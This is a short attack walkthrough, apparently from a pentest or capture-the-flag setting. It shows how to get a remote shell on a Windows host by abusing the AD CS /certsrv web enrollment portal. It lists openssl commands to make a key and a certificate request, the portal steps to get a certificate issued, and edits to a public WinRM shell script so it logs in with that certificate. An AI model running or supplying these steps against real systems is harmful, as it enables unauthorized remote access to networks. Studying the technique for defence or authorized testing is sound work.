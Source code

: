 ### REQUIREMENTS: Have access to the /certsrv web portal (You can send a CSR for a certificate)

### STEPS:

#### 1) openssl genrsa -des3 -out TARGET.key 2048 (Create private key)

#### 2) openssl req -new -key TARGET.key -out TARGET.csr (Create Certificate Signing Request)

#### 3) Access the /certsrv portal to request a certificate

#### 4) Click advanced certificate request, copy-paste the .csr file contents and leave everything as is.

#### 5) Download the certificate as Base64 Encoded

#### 6) Use https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb with a few modifications to use our certificates (Replace the username and password variables with :client_cert => 'certnew.cer', and :client_key => 'TARGET.key',

#### 7) rlwrap ruby winrm_shell.rb

#### 8) Congratulations, we have a shell!
